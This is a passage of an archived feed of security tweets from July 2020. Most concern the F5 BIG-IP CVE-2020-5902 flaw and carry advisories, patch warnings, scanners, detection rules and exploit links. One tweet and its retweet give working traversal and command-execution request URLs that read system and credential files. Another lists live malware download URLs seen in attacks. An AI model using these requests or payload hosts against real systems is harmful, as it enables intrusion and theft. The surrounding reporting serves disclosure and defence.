https://t.co/1qiPhBgXFU https://t.co/SrsTj3LkS5
</blockquote>

* https://viz.greynoise.io/ip/63.250.33.58

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>141</code></td>
<td>Favorites: <code>327</code></td>
</tr></table>

---
# BlackBerry
**https://twitter.com/BlackBerry/status/1280615095010316290 _at Tue Jul 07 21:30:05 +0000 2020_**
<blockquote>
Get BlackBerry's detailed analysis of the F5 Big-IP TMUI RCE vulnerability (CVE-2020-5902): https://t.co/txgVGll4gS https://t.co/yMtbzXgoF5
</blockquote>

* https://bit.ly/2Z6S1qy

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>30</code></td>
</tr></table>

---
# TeamAresSec
**https://twitter.com/TeamAresSec/status/1280553293320781825 _at Tue Jul 07 17:24:31 +0000 2020_**
<blockquote>
If you are relying on mitigations for CVE-2020-5902 we highly recommend that you patch. Our researchers @CharlesDardaman and @0xm1rch found a bypass to the mitigation and are working with F5 to have the advisory updated. #infosec #CVE https://t.co/IqmtfZ8WER
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>22</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>170</code></td>
<td>Favorites: <code>296</code></td>
</tr></table>

---
# dalvarezperez87
**https://twitter.com/dalvarezperez87/status/1280548510140706816 _at Tue Jul 07 17:05:30 +0000 2020_**
<blockquote>
A buggy behavior located into CreateFile allows to hide malware from users and AV scanners. Microsoft will not fix it: https://t.co/qa3yaH6jyk #CreateFile #malware #rootkit #antivirus
</blockquote>

* https://github.com/dalvarezperez/CreateFile_based_rootkit/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>69</code></td>
<td>Favorites: <code>124</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1280509470800588800 _at Tue Jul 07 14:30:23 +0000 2020_**
<blockquote>
Intermediate Python : https://t.co/YIsHFWPWl9 

More : https://t.co/R2YSBmrgT8 credits @yasoobkhalid
</blockquote>

* https://book.pythontips.com/en/latest/
* https://github.com/yasoob/intermediatePython/blob/master/index.rst

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>117</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1280495476324929536 _at Tue Jul 07 13:34:46 +0000 2020_**
<blockquote>
Cloud Services Enumeration – AWS, Azure and GCP : https://t.co/iXNde84yNB credits @notsosecure || @exploitprotocol

Also check out enumerate-iam : Enumerate the permissions associated with AWS credential set : https://t.co/pTzBPRxX3M @w3af
</blockquote>

* https://www.notsosecure.com/cloud-services-enumeration-aws-azure-and-gcp/
* https://github.com/andresriancho/enumerate-iam

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---
# xyhky3
**https://twitter.com/xyhky3/status/1280494317136744448 _at Tue Jul 07 13:30:10 +0000 2020_**
<blockquote>
CVE-2020-5902 - F5 RCE PoC: 
 some other

https://t.co/N2qZGNqzjl

https://t.co/CwB3zZINWT
</blockquote>

* https://github.com/yassineaboukir/CVE-2020-5902
* https://github.com/rapid7/metasploit-framework/pull/13807

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1280490188788006912 _at Tue Jul 07 13:13:46 +0000 2020_**
<blockquote>
Attacking and Auditing Docker Containers and Kubernetes Clusters : https://t.co/sjn7Si7QY9  credits @abh1sek || @_riddhishree || @madhuakula || @c0ld_b00t3r 

Also check : Kubernetes Goat :  "Vulnerable by Design" Kubernetes Cluster : https://t.co/ABKl6rkNJU credits @madhuakula
</blockquote>

* https://github.com/appsecco/attacking-and-auditing-docker-containers-and-kubernetes-clusters
* https://github.com/madhuakula/kubernetes-goat

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---
# xyhky3
**https://twitter.com/xyhky3/status/1280489104153575431 _at Tue Jul 07 13:09:27 +0000 2020_**
<blockquote>
Rapid7 published in their Github account an exploit/PoC for BigIP directory traversal &amp; file upload RCE CVE-2020-5902. 

https://t.co/CwB3zZrcyj
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/13807

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1280481089736208390 _at Tue Jul 07 12:37:36 +0000 2020_**
<blockquote>
Breaking and Pwning Apps and Servers on AWS and Azure - Free Training Courseware and Labs : https://t.co/XiEHITOA6K credits @0xbharath || @riyazwalikar || @makash
</blockquote>

* https://github.com/appsecco/breaking-and-pwning-apps-and-servers-aws-azure-training

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>106</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1280478029001580551 _at Tue Jul 07 12:25:26 +0000 2020_**
<blockquote>
The Art of Subdomain Enumeration : https://t.co/Zvxk3hRTgA credits  @0xbharath

Book : https://t.co/YZLxWefxt1
</blockquote>

* https://github.com/appsecco/the-art-of-subdomain-enumeration
* https://appsecco.com/books/subdomain-enumeration/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>83</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1280477183492812800 _at Tue Jul 07 12:22:05 +0000 2020_**
<blockquote>
Attacking CloudGoat 2 - A step by step walkthrough of CloudGoat 2.0 scenarios : https://t.co/Wpj93VaJbU credits @0xbharath

CloudGoat 2.0 : a "vulnerable by design" AWS deployment tool : https://t.co/ah7nhCxoKq

Github : https://t.co/dUEdyDFrUh
</blockquote>

* https://github.com/appsecco/attacking-cloudgoat2
* https://rhinosecuritylabs.com/aws/introducing-cloudgoat-2/
* https://github.com/RhinoSecurityLabs/cloudgoat

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---
# hackyzh
**https://twitter.com/hackyzh/status/1280349365958094848 _at Tue Jul 07 03:54:11 +0000 2020_**
<blockquote>
I have publish Microsoft Word Use After Free Poc.Because this requires the victim to delete the text box to trigger, Microsoft decided to close the issue, so I made it public. #vulnerabilities 

https://t.co/PNe4nB5G8W https://t.co/cqYK3vrR98
</blockquote>

* https://github.com/whiteHat001/MIcrosoft-Word-Use-After-Free

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>83</code></td>
<td>Favorites: <code>217</code></td>
</tr></table>

---
# TeamAresSec
**https://twitter.com/TeamAresSec/status/1280279161219633152 _at Mon Jul 06 23:15:13 +0000 2020_**
<blockquote>
Since multiple exploits have been released for CVE-2020-5902 we have decided to share what @0xm1rch and @CharlesDardaman did in order to gain code execution on the F5 Big IPs #infosec  https://t.co/HzjPlYWo35
</blockquote>

* https://www.criticalstart.com/f5-big-ip-remote-code-execution-exploit/

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>109</code></td>
<td>Favorites: <code>215</code></td>
</tr></table>

---
# theflow0
**https://twitter.com/theflow0/status/1280224554393178122 _at Mon Jul 06 19:38:13 +0000 2020_**
<blockquote>
Here you are, https://t.co/cdVyvdqGZ6, PS4 kernel exploit for FW 7.02 and below. Vulnerability discovered on 2019-06-09.

This must be chained together with a WebKit exploit, for example https://t.co/1BYe1aFGCe for FW 6.50.
</blockquote>

* https://hackerone.com/reports/826026
* https://github.com/Fire30/bad_hoist

<table><tr>
<td>Quotes: <code>97</code></td>
<td>Replies: <code>312</code></td>
<td>Retweets: <code>800</code></td>
<td>Favorites: <code>3171</code></td>
</tr></table>

---
# ZecOps
**https://twitter.com/ZecOps/status/1280215619267248128 _at Mon Jul 06 19:02:43 +0000 2020_**
<blockquote>
[TOOL RELEASE] Due to popular demand we created an SMBGhost/SMBleed vulnerability scanner based on our SMBGhost RCE work: https://t.co/D99CSmlG53
See README for instructions &amp; safe usage https://t.co/XZafKlVOCf
</blockquote>

* https://github.com/ZecOps/SMBGhost-SMBleed-scanner

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>108</code></td>
</tr></table>

---
# esizkur
**https://twitter.com/esizkur/status/1280203443592933381 _at Mon Jul 06 18:14:20 +0000 2020_**
<blockquote>
Interesting strategic move:. @TencentGlobal / @keen_lab starts building a GNN-based binary code similarity database (called BinaryAI, comes with IDAPython plugin):

code: https://t.co/vQLTNKNj2j
paper: https://t.co/9emfnPXEUP

(HT @CodeColorist)
</blockquote>

* https://github.com/binaryai/sdk
* https://keenlab.tencent.com/en/whitepapers/Ordermatters.pdf

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---
# ajxchapman
**https://twitter.com/ajxchapman/status/1280200420363767810 _at Mon Jul 06 18:02:19 +0000 2020_**
<blockquote>
Spamming Bug Bounty programs with 1-day exploits (see CVE-2020-5902) is the Ambulance Chasing of bug hunting. Any sensible program will have a condition to allow them time to patch before paying out for these issues. #BugBounty #UnpopularOpinion
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>289</code></td>
</tr></table>

---
# Bugcrowd
**https://twitter.com/Bugcrowd/status/1280194481397080064 _at Mon Jul 06 17:38:43 +0000 2020_**
<blockquote>
BREAKING 🚨 Bugcrowd security researchers are working around the clock to stop cybercriminals from stealing admin passwords using the CVE-2020-5902 remote code execution vulnerability in BIG-IP. Read the latest: https://t.co/QJMJrVXYZs https://t.co/M3JBuof4z3
</blockquote>

* https://www.helpnetsecurity.com/2020/07/06/exploit-cve-2020-5902/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>181</code></td>
</tr></table>

---
# CISO_Thoughts
**https://twitter.com/CISO_Thoughts/status/1280154273679097858 _at Mon Jul 06 14:58:57 +0000 2020_**
<blockquote>
#CyberSecurity: #Rapid7 published in their #Github account an exploit/PoC for #F5 #BigIP directory traversal &amp; file upload #RCE CVE-2020-5902. Can't stress enough on the immidiate need of enterprises to patch this right now.

#Vulnerability
#InfoSec
#CISO
 https://t.co/YzeCBZpu1X
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/13807

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1280153168391921664 _at Mon Jul 06 14:54:34 +0000 2020_**
<blockquote>
GreyNoise is observing "vuln check probes" and active opportunistic exploitation of the recent F5 RCE vulnerability CVE-2020-5902 from multiple devices. Tags are available for all users now. 

tags:"F5 BIG-IP TMUI RCE"
tags:"F5 BIG-IP TMUI RCE Vuln Check"

https://t.co/aJm1oPboj6 https://t.co/vHZbvOln22
</blockquote>

* https://viz.greynoise.io/query/?gnql=tags%3A%22F5%20BIG-IP%20TMUI%20RCE%22

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>108</code></td>
<td>Favorites: <code>244</code></td>
</tr></table>

---
# infosecnews_
**https://twitter.com/infosecnews_/status/1280096111332655105 _at Mon Jul 06 11:07:50 +0000 2020_**
<blockquote>
USCYBERCOM urgently recommends F5 customers to patch CVE-2020-5902 and 5903 NOW https://t.co/PHxFRwUPV1 #InfoSec #Security #F5 #InfoSecNews #RCE #PoC #ZeroDay #Hacker #Hackers #Hacking #Russia #China #CVE #USCYBERCOM
</blockquote>

* https://www.infosecnews.org/uscybercom-urgently-recommends-f5-customers-to-patch-cve-2020-5902-and-5903-now/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---
# arturwojtkowski
**https://twitter.com/arturwojtkowski/status/1280076123553095680 _at Mon Jul 06 09:48:25 +0000 2020_**
<blockquote>
CVE-2020-5902 - #F5 RCE PoC: 

https://t.co/hMycXvEjHH

https://t.co/syxdKsFMKn

#redteam #blueteam #Pentesting
</blockquote>

* https://github.com/yassineaboukir/CVE-2020-5902
* https://github.com/rapid7/metasploit-framework/blob/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# NCCGroupInfosec
**https://twitter.com/NCCGroupInfosec/status/1280070065896017926 _at Mon Jul 06 09:24:20 +0000 2020_**
<blockquote>
We're now seeing staged payloads for the F5 Networks K52145254: TMUI RCE vulnerability CVE-2020-5902 vuln - see - https://t.co/sSr4JIZwu3 https://t.co/o1Z7lTWSW8
</blockquote>

* https://research.nccgroup.com/2020/07/05/rift-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902-intelligence/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1280033103751282689 _at Mon Jul 06 06:57:28 +0000 2020_**
<blockquote>
RT @wugeej: F5 Big-IP CVE-2020-5902 LFI and RCE

LFI
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/pass…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>147</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1280008779359125504 _at Mon Jul 06 05:20:49 +0000 2020_**
<blockquote>
F5 Big-IP CVE-2020-5902 LFI and RCE

LFI
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
or /etc/hosts
or /config/bigip.license

RCE
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami

https://t.co/3Ete09oVP6 https://t.co/zBAfdIZBa2
</blockquote>

* https://github.com/dunderhay/CVE-2020-5902

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>176</code></td>
<td>Favorites: <code>453</code></td>
</tr></table>

---
# yassineaboukir
**https://twitter.com/yassineaboukir/status/1280001566775431168 _at Mon Jul 06 04:52:09 +0000 2020_**
<blockquote>
Critical F5 Big IP RCE PoC CVE-2020-5902: https://t.co/tnEXwcktKx
</blockquote>

* https://github.com/yassineaboukir/CVE-2020-5902

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
# dragonstar7722
**https://twitter.com/dragonstar7722/status/1279994274302488576 _at Mon Jul 06 04:23:10 +0000 2020_**
<blockquote>
CVE-2020-5902のPOC。LFIとRCE。こちらも公開されていますねー。

https://t.co/4ySXfh6NBe

#F5 #poc
</blockquote>

* https://github.com/dunderhay/CVE-2020-5902

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# bad_packets
**https://twitter.com/bad_packets/status/1279986441385172993 _at Mon Jul 06 03:52:03 +0000 2020_**
<blockquote>
Active DDoS malware payload detected:
http://panel.devilsden[.]net/iot.sh
http://185.172.111.233:999/sisi/*
 (https://t.co/qmOnNTxywH)

Exploit attempt source IP: 2.57.122.96 (🇷🇴)

Target: F5 BIG-IP TMUI RCE vulnerability CVE-2020-5902 (https://t.co/y5Uor8B0qi) #threatintel https://t.co/oprQHizid7
</blockquote>

* https://www.virustotal.com/gui/url/d855d772abbc14e7629ce714fa563d1c0e46c35a2bd86f5325724e6a9c35986c/details
* https://badpackets.net/over-1800-f5-big-ip-endpoints-vulnerable-to-cve-2020-5902/

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---
# certbund
**https://twitter.com/certbund/status/1279892212449447941 _at Sun Jul 05 21:37:37 +0000 2020_**
<blockquote>
🩹⚠️ Operators of #F5 BIG-IP systems (LTM, AAM, AFM, Analytics, APM, ASM, DNS, FPS, GTM, Link Controller, PEM) should patch ➡️ remote code execution vulnerability CVE-2020-5902 in Traffic Management User Interface (TMUI) now. Active scanning/exploitation is ongoing.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# omespino
**https://twitter.com/omespino/status/1279885683255984129 _at Sun Jul 05 21:11:40 +0000 2020_**
<blockquote>
Hey mates, it's just me or twitter feed is flooded of CVE-2020-5902, lol #bugbounty #infosec https://t.co/VIJwRHwwSP
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>81</code></td>
<td>Favorites: <code>378</code></td>
</tr></table>

---
# catc0n
**https://twitter.com/catc0n/status/1279883738579709952 _at Sun Jul 05 21:03:57 +0000 2020_**
<blockquote>
We've seen a lot of PoC for CVE-2020-5902 that gets to file reads or info disclosures—Metasploit published initial exploit code today that gets a root shell on vulnerable BIG-IP versions. https://t.co/2Thr74Rt8R
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/13807

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>201</code></td>
<td>Favorites: <code>382</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1279882456175276032 _at Sun Jul 05 20:58:51 +0000 2020_**
<blockquote>
Here's an NMAP script to detect F5's BIG-IP servers vulnerable to recently disclosed RCE #vulnerability (CVE-2020-5902).

https://t.co/voeLuOHz2u

via @RandomDhiraj 

#infosec
</blockquote>

* https://twitter.com/RandomDhiraj/status/1279842348348956672

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>112</code></td>
</tr></table>

---
# cyber_advising
**https://twitter.com/cyber_advising/status/1279848212606615552 _at Sun Jul 05 18:42:46 +0000 2020_**
<blockquote>
CVE-2020-5902 F5 BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed.. https://t.co/laQLPQXf7K
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---
# bad_packets
**https://twitter.com/bad_packets/status/1279843915978338304 _at Sun Jul 05 18:25:42 +0000 2020_**
<blockquote>
Our preliminary CVE-2020-5902 scans have located 1,832 vulnerable F5 hosts.

System administrators need to upgrade to fixed versions ASAP. A proof-of-concept exploit is now publicly available.
</blockquote>

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>74</code></td>
</tr></table>

---
# RandomDhiraj
**https://twitter.com/RandomDhiraj/status/1279842348348956672 _at Sun Jul 05 18:19:28 +0000 2020_**
<blockquote>
A quick NMAP script for CVE-2020-5902.
https://t.co/ozd9HcFoSY
#infosec https://t.co/tGaYUtGcxz
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-5902.nse

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>414</code></td>
<td>Favorites: <code>944</code></td>
</tr></table>

---
# xer0dayz
**https://twitter.com/xer0dayz/status/1279815244303331328 _at Sun Jul 05 16:31:46 +0000 2020_**
<blockquote>
Added sc0pe templates to scan and detect CVE-2020-5902 Remote Code Execution &amp; XSS on F5 BIG-IP devices to Sn1per. https://t.co/qEnX1iZ8H4

#hackers #hacking #bugbounty #bugbountytips #pentesting #pentest #redteam #OSINT #recon #tools #offsec #CTF #netsec #PoC #exploit
</blockquote>

* https://github.com/1N3/Sn1per

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>101</code></td>
</tr></table>

---
# rimpq
**https://twitter.com/rimpq/status/1279771865247109120 _at Sun Jul 05 13:39:24 +0000 2020_**
<blockquote>
Rules to detect exploitation of #F5 BIG-IP TMUI #vulnerability (#CVE-2020-5902)

#SIGMA (by @cyb3rops / @SOC_Prime ):
➡️ https://t.co/SLZLrl4gVG
➡️https://t.co/W3hSLbCnul 

#Snort/#Suricata by @ET_Labs (ET Open):
➡️https://t.co/gbJdyKOWHY 
#BlueTeam #SOC #ThreatHunting #Exploit https://t.co/96TYY2I2Rm
</blockquote>

* https://tdm.socprime.com/tdm/info/a3bYpIF6od6C
* https://github.com/Neo23x0/sigma/blob/master/rules/web/web_cve_2020_5902_f5_bigip.yml
* https://pastebin.com/2PbtrJ28

<table><tr>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>152</code></td>
<td>Favorites: <code>264</code></td>
</tr></table>

---
# CharlesDardaman
**https://twitter.com/CharlesDardaman/status/1279581691573567489 _at Sun Jul 05 01:03:43 +0000 2020_**
<blockquote>
Spent some time with @0xm1rch to get our exploit working for the F5 Big-IP TMUI vuln (CVE-2020-5902) We also got LPE working easily #infosec https://t.co/BxMUSPcLAD
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>266</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1279558437643399168 _at Sat Jul 04 23:31:19 +0000 2020_**
<blockquote>
CVE-2020-14947  The official exploit for OCS Inventory NG v2.7 Remote Command Execution CVE-2020-14947  https://t.co/hXPHrBUK3e  #Pentesting #RCE #Exploit #CyberSecurity #Infosec https://t.co/Gr84UOsKqy
</blockquote>

* https://github.com/mhaskar/CVE-2020-14947

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>7</code></td>
</tr></table>

---
# USCERT_gov
**https://twitter.com/USCERT_gov/status/1279523931624484866 _at Sat Jul 04 21:14:12 +0000 2020_**
<blockquote>
F5 has released a security advisory to address a critical RCE vulnerability (CVE-2020-5902) in the BIG-IP Traffic Management User Interface (TMUI). Read more at https://t.co/aHxgi33mdV #Cyber #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xfqJA

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>192</code></td>
<td>Favorites: <code>304</code></td>
</tr></table>

---
# F5Security
**https://twitter.com/F5Security/status/1279474093486747648 _at Sat Jul 04 17:56:10 +0000 2020_**
<blockquote>
The BIG-IP Traffic Management User Interface (TMUI) has a Remote Code Execution vulnerability (CVE-2020-5902) in undisclosed pages. F5 recommends upgrading to a fixed software version to fully mitigate this vulnerability, more details here: https://t.co/4xADlQ3N6V #BIGIP #AskF5
</blockquote>

* https://go.f5.net/s3pfp

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---
# NCCGroupInfosec
**https://twitter.com/NCCGroupInfosec/status/1279438548085678081 _at Sat Jul 04 15:34:55 +0000 2020_**
<blockquote>
We're seeing active scanning and/or exploitation (file retrieval in enc passwds) of the @F5Networks K52145254: TMUI RCE vulnerability #CVE-2020-5902 issue from these IPs and user agent combos - https://t.co/NEYoemfNdw
</blockquote>

* https://github.com/nccgroup/Cyber-Defence/blob/master/Intelligence/CVE-2020-5902/f5-ip-user-agents.csv

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>23</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1279423483303194624 _at Sat Jul 04 14:35:03 +0000 2020_**
<blockquote>
Critical Unauthorized RCE #Vulnerability (CVE-2020-5902 with CVSS Score 10/10) Affects F5's BIG-IP Application Security Servers Used in large Enterprises, Data Centers, and #CloudComputing Environments.

Details — https://t.co/6Fmean9wC4

Apply Newly Released Patch Updates ASAP! https://t.co/AWIRTMoHft
</blockquote>

* https://thehackernews.com/2020/07/f5-big-ip-application-security.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>193</code></td>
<td>Favorites: <code>288</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1279158081847468033 _at Fri Jul 03 21:00:26 +0000 2020_**
<blockquote>
RT @CNMF_CyberAlert: URGENT: Patching CVE-2020-5902 and 5903 should not be postponed over the weekend. Remediate immediately. https://t.co/…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>916</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# CNMF_CyberAlert
**https://twitter.com/CNMF_CyberAlert/status/1279151966178902016 _at Fri Jul 03 20:36:08 +0000 2020_**
<blockquote>
URGENT: Patching CVE-2020-5902 and 5903 should not be postponed over the weekend. Remediate immediately.
</blockquote>

<table><tr>
<td>Quotes: <code>92</code></td>
<td>Replies: <code>27</code></td>
<td>Retweets: <code>916</code></td>
<td>Favorites: <code>1233</code></td>
</tr></table>

---
# _hg8_
**https://twitter.com/_hg8_/status/1279130278410235907 _at Fri Jul 03 19:09:58 +0000 2020_**
<blockquote>
"Bolt CMS &lt;= 3.7.0 Multiple Vulnerabilities - CSRF to RCE (CVE-2020-4040, CVE-2020-4041)"

Tl;Dr: When the admin of Bolt CMS visits the PoC page backdoor.php gets uploaded.

https://t.co/F96LJsjsxb #cve
</blockquote>

* https://seclists.org/fulldisclosure/2020/Jul/4

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---
# F5Networks
**https://twitter.com/F5Networks/status/1279022116868960257 _at Fri Jul 03 12:00:10 +0000 2020_**
<blockquote>
The BIG-IP Traffic Management User Interface (TMUI) has a Remote Code Execution vulnerability (CVE-2020-5902) in undisclosed pages. F5 recommends upgrading to a fixed software version to fully mitigate this vulnerability, more details here: https://t.co/yTL0iUBajI #BIGIP #AskF5
</blockquote>

* https://go.f5.net/dk3nl

<table><tr>
<td>Quotes: <code>60</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>364</code></td>
<td>Favorites: <code>470</code></td>
</tr></table>

---
# pentestltd
**https://twitter.com/pentestltd/status/1278961377768546304 _at Fri Jul 03 07:58:49 +0000 2020_**
<blockquote>
Read all about our latest #research - A Remote Code Execution (RCE) vulnerability our researchers found within #Drupal Core, versions 8 &amp; 9 (CVE-2020-13664). Huge well to Lorenzo Grespan and @_s_n_t for all their hard work on this ---&gt; https://t.co/8yZdsHMQPo https://t.co/iv9z4zL8dF
</blockquote>

* https://buff.ly/3iyKSr0

<table><tr>
<td></td>
</tr></table>
<table><tr>
